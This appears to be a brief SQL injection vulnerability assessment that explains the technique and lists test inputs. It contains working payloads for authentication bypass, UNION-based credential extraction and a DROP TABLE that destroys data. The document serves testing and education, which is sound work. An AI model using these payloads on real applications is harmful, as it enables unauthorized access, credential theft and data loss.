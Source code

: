 # SQL Injection Vulnerability Assessment

## 1. Introduction

SQL Injection is a code injection technique that exploits vulnerabilities in applications that interact with databases. It occurs when untrusted data is sent to an interpreter as part of a command or query, allowing attackers to manipulate databases by inserting malicious SQL statements.

### Examples of SQL Injection

**Basic Authentication Bypass:**
```sql
-- Original intended query
SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password'

-- With SQL injection input: ' OR '1'='1
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'password'
```

This injection makes the WHERE clause always evaluate to true, potentially granting access without valid credentials.

**Data Extraction:**
```sql
-- With SQL injection input: admin' UNION SELECT username, password FROM users--
SELECT * FROM users WHERE username = 'admin' UNION SELECT username, password FROM users--' AND password = 'password'
```

This injection attempts to retrieve all usernames and passwords from the database.

**Destructive Operations:**
```sql
-- With SQL injection input: '; DROP TABLE users;--
SELECT * FROM users WHERE username = ''; DROP TABLE users;--' AND password = 'password'
```

This injection attempts to delete the entire users table.

## 2. Test Cases

The following test cases were executed to assess the application's resistance to SQL injection attacks:

1. **Authentication Bypass Tests:**
   - Testing `' OR '1'='1` in username and password fields
   - Testing `admin' --` to comment out password verification

2. **Data Extraction Tests:**
   - Testing `' UNION SELECT username, password FROM users --` to retrieve sensitive data

3. **Destructive Operation Tests:**
   - Testing `' OR '1'='1'; DROP TABLE users; --` to attempt database destruction

4. **Other Common Patterns:**
   - Testing `admin'; SELECT * FROM users; --` to execute additional queries
